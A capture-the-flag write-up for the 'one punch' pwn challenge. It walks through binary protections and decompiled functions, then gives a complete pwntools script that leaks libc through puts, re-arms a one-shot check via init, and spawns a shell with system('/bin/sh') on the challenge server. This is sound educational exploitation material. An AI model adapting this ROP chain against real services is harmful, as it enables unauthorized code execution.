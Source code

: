 # one punch

## Problem

<details>

<summary>Description</summary>

100 BOFs, 100 UAFs, 100 Race cons and 10 km ROP chain, **EVERY SINGLE DAY!!!**

</details>

## Solution

### Basic file checks

We're given a binary with a ld linker and a libc, first thing we'll do is run `pwninit` with the provided linker so it can segfaultlessly load the provided libc

```bash
 pwninit --bin ./one_punch --libc ./libc.so.6 --ld ./ld-linux-x86-64.so.2
```

Next lets do some basic file check

* FULL RELRO: so overwriting GOT is not an option
* No Stack Canary: easier for us to do BOFs
* NX enable: Shellcode is also not an option
* PIE Enabled: means we have to do some leaking to correctly craft the ROP chains

Next, lets statically analyse the binary using ghidra

### Binary Analysis

<figure><img src="../../../.gitbook/assets/image_2023-05-21_230724029.png" alt=""><figcaption><p>Decompiled Main()</p></figcaption></figure>

First the function will check if `mapped_region` in the `.data` section is empty, if not it will execute `init`, we'll take a look at that later. Next we're greeted with an address leak, lets check what that is using `gdb-pwndbg`

<figure><img src="../../../.gitbook/assets/image_2023-05-21_230912891.png" alt="" width="563"><figcaption><p>Leaked address at initial run which corresponds to <code>pop rdi; ret;</code> gadget</p></figcaption></figure>

It seems the address is pointing to an address that can be useful as our `pop rdi; ret;` gadget which will enable our ROP chains.

<figure><img src="../../../.gitbook/assets/image_2023-05-21_230809043.png" alt=""><figcaption><p>Decompiled init()</p></figcaption></figure>

The `init` function fills the `mapped_region` with the value of key which holds the value `POWER, GET THE POWER.` . Next lets check `vuln`

<figure><img src="../../../.gitbook/assets/image_2023-05-21_230827798.png" alt=""><figcaption><p>Decompiled vuln()</p></figcaption></figure>

### Crafting ROP chains

Immediately we see that it's using the `gets` which will enable our overflow, from here we already get an overview of how we'll exceute the ROP chains. First we'll leak one of the function within the GOT and print it out. We can then subtract that with its corresponding offset to find the Libc base address. we can call `system` with `/bin/sh` that's exist within the Libc as follows:

> 1st Payload:
>
> 1. pop rdi -> GOT puts -> PLT puts -> Main (Eventually will call vuln)
>
> 2nd Payload:
>
> 1. pop rdi -> binsh -> system

but there's a twist, `vuln` will do a a comparison between `key` and `mapped_region` . If the two values is not the same, it will exit the program. Below it, the instruction will overwrite the first 21 bytes of `mapped_region` with 0s. This basically is a check to make sure that `vuln` can only be called once. To bypass this, we simply have to call `init` to restore the value. In order to do that we cant return to main after our first BOFs since there's check on `mapped_region` if the memory is empty. So instead, we need to return to `init` passing the if statement and eventually will return to vuln through main.

> 1st Payload:
>
> 1. pop rdi -> GOT puts -> PLT puts -> init
>
> 2nd Payload:
>
> 1. pop rdi -> binsh -> system

{% code title="Solve.py" lineNumbers="true" fullWidth="false" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './one_punch'
rop = ROP(exe)
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = 'netcat.deadsec.quest'
port = 31794

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(host, port, *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *main
'''.format(**locals())

io = start()

# =========================================================
#                         ADDRESSES
# =========================================================
# Got manually through cyclic gdb-pwndbg
offset = 120

pop_rdi = int(io.recvline()[24:-1].decode(), 16)
elf.address = pop_rdi - 0x1291
ret = elf.address + 0x101a  
call_init = elf.address + 0x13f4
info('leaked elf base address: %#x', elf.address)

# =========================================================
#                         EXPLOITS
# =========================================================
payload = flat({
    offset: [
        pop_rdi,
        elf.got.puts,
        elf.plt.puts,
        ret,
        call_init
    ]
})

# send 1st payload to get puts offset
io.sendlineafter(b'strongest hero?', payload)

io.recvline()

# indexing to save puts addr offset in hex form 
got_puts = unpack(io.recvline()[:6].ljust(8, b'\x00'))
info('leaked got_puts: %#x', got_puts)

# obtained manually using $ readelf -s libc.so.6 | grep puts
libc_base = got_puts - 0x80ed0  
info('libc_base: %#x', libc_base)

# obtained manually using same method as mentioned above
system_addr = libc_base + 0x50d60
info('system_addr: %#x', system_addr)

# obtained manually using $ strings -a -t x libc.so.6 | grep "/bin/sh"
binsh = libc_base + 0x1d8698
info('binsh: %#x', binsh)

# 2nd payload to get shell
payload = flat({
    offset: [
        pop_rdi,
        binsh,
        ret,
        system_addr
    ]
})

# send 2nd payload to get shell
io.sendlineafter(b'strongest hero?', payload)

io.interactive()
```
{% endcode %}

## Flag

> _**dead{I\_w4nn4\_b3\_4\_s41ky0u\_H3R00000000}**_
